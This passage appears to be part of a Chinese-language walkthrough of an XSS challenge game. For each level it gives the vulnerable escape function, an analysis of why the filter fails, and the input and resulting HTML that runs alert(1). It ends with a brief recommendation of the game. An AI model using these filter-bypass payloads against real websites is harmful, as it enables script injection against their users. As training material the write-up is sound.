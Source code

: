 ```
<script>
  var url = 'javascript:console.log("${s}")'
  var a = document.createElement('a')
  a.href = url
  document.body.appendChild(a)
  a.click()
</script>
`
}
```

Analysis:

```
过滤一些字符；
输入点在自定义参数的字符串值中，/替换为//，但"双引号过滤后的/"正好将/引入在内，过滤形同虚设...
```

input code:

```
"),alert(1)//
```

html:

```
<script>
  var url = 'javascript:console.log("\"),alert(1)\/\/")'
  var a = document.createElement('a')
  a.href = url
  document.body.appendChild(a)
  a.click()
</script>
```

## 0x12

server code:

```
// from alf.nu
function escape (s) {
  s = s.replace(/"/g, '\\"')
  return '<script>console.log("' + s + '");</script>'
}
```

Analysis:

```
匹配"双引号，并替换为\\"；
由于输入点在script标签外，则不能考虑html实体编码；
"替换成\\"，在实际输出中可以在添一个\来转义掉第一个\绕过；
```

input code:

```
\");alert(1);//
```

html:

```
<script>console.log("\\");alert(1);//");</script>
```

## BTW

多数题目考察绕过正则匹配的过滤，有些感觉是为了题而出题，实用性不大，但页面做的很有趣，很舒服，还是推荐大家来玩，膜haozi师傅。